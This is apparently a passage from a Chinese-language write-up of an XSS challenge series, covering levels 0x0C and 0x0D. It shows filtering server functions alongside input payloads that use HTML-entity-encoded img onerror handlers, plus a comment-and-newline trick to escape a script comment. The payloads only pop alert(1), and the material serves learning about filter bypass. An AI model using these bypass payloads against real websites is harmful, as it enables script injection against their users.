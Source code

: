 ```js
</h1>
<img src="" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
<H1>
```

HTML

```html
<h1></h1>
<img src="" ONERROR="&#X61;&#X6C;&#X65;&#X72;&#X74;&#X28;&#X31;&#X29;" />
<h1></h1>
```

## 0x0C

和上一题一样，不过是替换了 script 关键字，使用 HTML 标签就行了

Server Code

```js
function render(input) {
  input = input.replace(/script/gi, "");
  input = input.toUpperCase();
  return "<h1>" + input + "</h1>";
}
```

Input Code

```js
</h1>
<img src="" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
<H1>
```

HTML

```html
<h1></h1>
<img src="" ONERROR="&#X61;&#X6C;&#X65;&#X72;&#X74;&#X28;&#X31;&#X29;" />
<h1></h1>
```

## 0x0D

1. 在 html 的 script 标签中`<!--`和`-->`可以分开单独使用，都能作为单行注释。因为过滤了`<`所以使用`-->`作为单行注释

2. 换行绕过单行注释

Server Code

```js
function render(input) {
  input = input.replace(/[</"']/g, "");
  return `
    <script>
          // alert('${input}')
    </script>
  `;
}
```
